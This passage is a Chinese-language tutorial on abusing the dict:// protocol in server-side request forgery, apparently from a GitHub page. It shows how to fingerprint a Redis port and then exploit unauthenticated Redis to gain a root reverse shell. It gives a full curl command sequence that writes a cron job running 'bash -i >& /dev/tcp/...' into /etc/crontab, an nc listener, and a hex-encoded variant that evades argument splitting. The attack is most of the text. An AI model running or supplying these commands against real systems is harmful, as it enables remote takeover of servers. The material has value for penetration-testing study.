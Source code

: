 

gopher协议使用限制


当gopher协议无法使用时，怎么办？这时候可以使用dict协议，我们先看执行效果：

![img](assets/v2-b16708fd575c574c7754edffcb044883_720w.png)



由上图可以发现通过dict协议，可以看出目标端口的指纹信息，通过上图返回的指纹信息，可以明确，是6379的redis数据库。OK，现在我们知道，利用dict协议可以探测端口的开放情况和指纹信息，那么dict协议怎么进一步使用？有什么语法？以下为dict协议的使用：



1. dict://serverip:port/命令:参数
2. 向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n(CRLF)，为漏洞利用增添了便利
3. 通过dict协议的话要一条一条的执行，而gopher协议执行一条命令就行了。





通过dict协议利用redis的未授权访问反弹shell的步骤如下：

```sh
# 1、开启反弹shell的监听
nc -l 9999
# 2、依次执行下面的命令
curl dict://192.168.0.119:6379/set:mars:"\n\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n\n"
curl dict://192.168.0.119:6379/config:set:dir:/etc/
curl dict://192.168.0.119:6379/config:set:dbfilename:crontab
curl dict://192.168.0.119:6379/bgsave
```

执行时，反弹shell的命令，也就是set:mars:xxx，会因为特殊字符的原因无法写入到目标的redis中，被被空格所分割导致出现一下情况：

```sh
1584705879.520734 [0 172.17.0.1:44488] "set" "mars" "\\n\\n*" "*" "*" "*" "*" "root" "bash" "-i" ">&" "/dev/tcp/192.168.0.119/6789" "0>&1\\n\\n"
```

根据上图我们会发现，命令被分割了，看表象感觉像是被空格分割了。此时将反弹shell的命令进行十六进制转换，变为：

```sh
curl dict://192.168.0.119:6379/set:mars:\"\\x0a\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x72\\x6f\\x6f\\x74\\x20\\x62\\x61\\x73\\x68\\x20\\x2d\\x69\\x20\\x3e\\x26\\x20\\x2f\\x64\\x65\\x76\\x2f\\x74\\x63\\x70\\x2f\\x31\\x39\\x32\\x2e\\x31\\x36\\x38\\x2e\\x30\\x2e\\x31\\x31\\x39\\x2f\\x39\\x39\\x39\\x39\\x20\\x30\\x3e\\x26\\x31\\x0a\"
```

以上单引号使用反斜杠\进行转移，其他数据进行十六进制编码，执行结果如下，可以发现没有错误了

```sh
1584706087.980465 [0 172.17.0.1:44490] "set" "mars" "\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n"
```
